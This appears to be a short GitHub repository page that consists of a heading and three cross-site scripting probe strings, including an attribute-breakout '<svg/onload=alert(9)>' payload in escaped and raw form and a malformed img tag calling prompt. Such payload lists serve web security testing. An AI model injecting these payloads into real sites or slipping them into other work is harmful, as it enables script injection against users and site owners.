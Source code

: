 # -svg-onload-alert-9-
">&lt;svg/onload=alert(9)>&lt;"
"><svg/onload=alert(9)><"
"><img rsc=x {prompt``}><"
